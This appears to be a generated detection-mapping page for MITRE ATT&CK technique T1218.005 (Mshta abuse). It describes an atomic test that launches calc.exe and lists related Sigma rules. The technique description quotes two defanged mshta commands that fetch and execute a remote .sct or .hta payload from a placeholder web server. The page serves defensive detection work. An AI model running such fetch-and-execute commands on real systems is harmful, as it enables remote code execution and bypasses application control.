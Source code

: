 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta Executes Remote HTML Application (HTA)
## OS
  - windows


## Description:
Execute an arbitrary remote HTA. Upon execution calc.exe will be launched.


## Executor
powershell

# Sigma Rule
 - proc_creation_win_susp_web_request_cmd.yml (id: 9fc51a3c-81b3-4fa7-b35f-7c02cf10fd2d)

 - posh_ps_web_request.yml (id: 1139d2e2-84b1-4226-b445-354492eba8ba)

 - proc_creation_win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - proc_creation_win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - proc_creation_win_shell_spawn_susp_program.yml (id: 3a6586ad-127a-4d3b-a677-1e6eacdf8fde)

 - proc_creation_win_shell_spawn_mshta.yml (id: 772bb24c-8df2-4be0-9157-ae4dfa794037)

 - proc_creation_win_mshta_spawn_shell.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)

 - sysmon_powershell_network_connection.yml (id: 1f21ec3f-810d-4b0e-8045-322202e22b4b)

 - sysmon_win_binary_github_com.yml (id: 635dbb88-67b3-4b41-9ea5-a3af2dd88153)



[back](../index.md)
